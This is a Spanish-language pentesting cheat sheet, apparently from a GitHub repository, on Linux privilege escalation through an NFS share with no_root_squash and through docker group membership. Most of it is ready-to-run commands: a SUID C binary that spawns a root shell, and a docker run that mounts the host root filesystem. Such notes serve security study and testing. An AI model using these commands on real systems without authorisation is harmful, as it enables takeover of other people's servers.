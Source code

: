 ## NFS Vulnerables

Cuando un recurso compartido tiene habilitada la opción `no_root_squash`, significa que dentro de los recursos compartidos se podrán realizar cambios utilizando máximos privilegios de `root`.

De esta manera debemos considerar dos cosas para escalar privilegios:

- El recurso tiene habilitada la opción `no_root_squash` en el fichero `/etc/exports`.
- El recurso es asequible de forma remota desde otros dispositivos de la red.

Esto último nos permitirá crear una montura del mismo en nuestro servidor local de atacantes.

De esta manera, lo primero que debemos realizar es una montura del mismo recurso compartido en nuestro servidor local, para ello podemos ejecutar la siguiente secuencia de comandos:

```bash
mkdir /mnt/nfs_mount
mount -o rw,vers=2 -l nfs <ip>:<share-resource> /mnt/nfs_mount
```

Luego de realizar la montura, podemos proseguir con la siguiente secuencia de comandos, que nos permitirá crear y compilar un binario SUID que al ser ejecutado por el usuario de sistema le entregue una shell de bash con el usuario `root`:

```bash
cd /mnt/nfs_mount/
echo 'int main(){ setuid(0); system("/bin/bash"); return 0; }' > privesc.c
gcc privesc.c -o privesc
chmod 4755 privesc
```

Luego de realizar esto, volvemos al usuarios de bajos privilegios en el servidor y ejecutamos el binario que hemos añadido al recurso compartido:

```bash
./privesc
```

Una vez hecho esto, seremos `root` y habremos escalado privilegios en el servidor.

---

# Privilege Escalation via Docker Group

Si el usuario de tu sesión actual se encuentra en el grupo `docker` tienes una vía de escalación de privilegios en el servidor.

Para ello debes ejecutar la siguiente secuencia de comandos:

```bash
# Server Session:
# Con este comando podrás ver si tu usuario está en el grupo "docker".
$ id

# Con este comando obtendrás las imagenes de Docker
# que están instaladas en el servidor.
$ docker images

# Con este comando lo que harás será:
# 1. Arrancar un contenedor a partir de una imagen instalada en el host.
# 2. Montar la raíz del servidor padre dentro del directorio /mnt del contenedor. 
# De esta manera todos los cambios que se apliquen dentro del directorio 
# /mnt, del contenedor, serán realizados en el servidor padre.
$ docker run -v /:/mnt -it <name>:<tag> /bin/bash

# Container session:
# Se le asignan privilegios SUID a la bash del servidor padre
# montada en el contenedor.
$ chmod 4755 /mnt/bin/bash
```